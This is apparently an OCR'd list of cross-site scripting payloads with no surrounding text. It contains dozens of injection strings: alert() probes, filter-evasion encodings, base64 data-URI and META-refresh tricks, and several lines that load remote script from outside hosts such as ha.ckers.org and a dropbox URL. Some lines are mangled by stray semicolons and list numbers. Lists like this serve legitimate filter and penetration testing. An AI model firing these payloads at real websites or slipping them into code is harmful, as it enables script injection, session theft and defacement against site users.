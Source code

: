 perl -e &#039;print \"<SCR\0IPT>alert(\"XSS\")</SCR\0IPT>\";&#039; > out
<;SCRIPT a=";blah"; ';'; SRC=";http://ha.ckers.org/xss.js";>;<;/SCRIPT>;
"><script>alert(1337)</script>"><script>alert("XSS by \n1</h1></marquee>
  <?import namespace="xss" implementation="http://ha.ckers.org/xss.htc">
'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT><img src="" alt='
"><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT><img src="" alt="
<META HTTP-EQUIV=\"refresh\" CONTENT=\"0;url=javascript:alert('XSS');\">
1) <a href="javascript&colon;\u0061&#x6C;&#101%72t&lpar;1&rpar;"><button>
16) <svg><script x:href='https://dl.dropbox.com/u/13018058/js.js' {Opera}
<;A HREF=";http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D";>;XSS<;/A>;
<;TABLE>;<;TD BACKGROUND=";javascript:alert(';XSS';)";>;<;/TD>;<;/TABLE>;
<div STYLE="background-image: url(javascript:document.vulnerable=true;)">
AK%22%20style%3D%22background:url(javascript:alert(%27XSS%27))%22%20OS%22
top['ev'+'al'](['al','ert','(1)']['toS'+'tring']()['repl'+'ace'](/,/g,''))
<\sc\r\ipt>ale\u0072t('SS\x58'.split('').reverse().join(''))<\/\sc\r\ipt> 
<iframe src=data:text/html;base64,PHNjcmlwdD5hbGVydCgvWFNTLyk8L3NjcmlwdD4>
['red'],alert('sum 1 is');try{1in to}catch(me){alert(!1 & 'the police');} 
<?xml-stylesheet type="text/css"?><!DOCTYPE x SYSTEM "test.dtd"><x>&x;</x>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
</title><meta http-equiv='content-type' content='text/html;charset=utf-7'>
<div style="background-image: url(javascript:document.vulnerable=true;);">
39) &#34;&#62;<svg><style>{-o-link-source&colon;'<body/onload=confirm(1)>'
\'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT><img src="" alt=\'
perl -e &#039;print \"<IMG SRC=java\0script:alert(\"XSS\")>\";&#039; > out
"><script>alert(1337)</script>"><script>alert("XSS by \nxss</h1></marquee>
<xml id="X"><a><b><script>document.vulnerable=true;</script>;</b></a></xml>
<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>
"><script>alert("XSS by \n1")</script>><marquee><h1>XSS by 1</h1></marquee>
<svg onload="javascript:alert(1)" xmlns="http://www.w3.org/2000/svg"></svg>
18) <iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>
javascript:[$,_]=(function()[_ for each(_ in ["alert",eval])])(),_($)(123);
javascript:{http://%0A(%46un%63\u0074ion%0C(('\u0061le%72t((1))'))%0A())()}
<?xml-stylesheet type="text/xsl" href="#"?><img xmlns="x-schema:test.xdr"/>
<div style="binding: url(http://www.securitycompass.com/xss.js);"> [Mozilla]
<object classid="clsid:..." codebase="javascript:document.vulnerable=true;">
<XML ID=I><X><C><![CDATA[<IMG SRC="javas]]><![CDATA[cript:alert('XSS');">]]>
'"></title><script>alert(1337)</script>><marquee><h1>XSS by 1</h1></marquee>
<script>alert("XSS by \nxss")</script><marquee><h1>XSS by xss</h1></marquee>
<EMBED SRC="http://ha.ckers.org/xss.swf" AllowScriptAccess="always"></EMBED>
<;META HTTP-EQUIV=";refresh"; CONTENT=";0;url=javascript:alert(';XSS';);";>;
<script xmlns="http://www.w3.org/1999/xhtml">&#x61;l&#x65;rt&#40;1)</script>
<object data=data:text/html;charset=utf-8,%3cscript%3ealert(3);%3c/script%3e>
new Function(<text><x y="a"></x><x y="lert"></x><x y="(1)"></x></text>..@y)()
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
<div STYLE="background-image: url(&#1;javascript:document.vulnerable=true;)">
<XML ID="xss"><I><B><IMG SRC="javascript:alert('XSS')"></B></I></XML>
[$y=('al')]&&[$z=$y]&&[$z+=('ert')+[]][DocDan=(/ev/)[-1]+$y]($z).valueOf()(1) 
<?xml-stylesheet type="text/css" href="data:,*%7bx:expression(write(2));%7d"?>
for(i=1;i<5;i++){e+=String.fromCharCode((35/3)*P(i,3)-89*P(i,2)+(607/3)*i-24)}
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
'"></title><script>alert(1337)</script>><marquee><h1>XSS by xss</h1></marquee>
45) /*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1) /*iframe/src*/>
48) <object data=data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+></object>​
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+1/+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+ ++alert(1)
<;A HREF=";javascript:document.location=';http://www.google.com/';";>;XSS<;/A>;
"><script>alert("XSS by \nxss")</script>><marquee><h1>XSS by xss</h1></marquee>
27) <a href="data:text/html;base64_,<svg/onload=\u0061&#x6C;&#101%72t(1)>">X</a
8) <script/&Tab; src='https://dl.dropbox.com/u/13018058/js.js' /&Tab;></script>
<div style="background-image: url(javascript:document.write("XSS-XSS-XSS"););">